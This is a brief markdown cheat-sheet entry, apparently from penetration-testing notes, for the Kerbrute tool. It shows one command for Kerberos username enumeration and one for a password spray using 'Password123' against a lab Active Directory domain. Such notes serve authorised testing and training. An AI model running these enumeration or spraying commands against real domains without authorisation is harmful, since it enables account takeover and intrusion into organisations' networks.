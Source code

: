 ### Kerbrute
https://github.com/ropnop/kerbrute

User Enumeration
```bash
./kerbrute_linux_amd64 userenum -d lab.ropnop.com usernames.txt
```

Password Spray
```
./kerbrute_linux_amd64 passwordspray -d lab.ropnop.com domain_users.txt Password123
```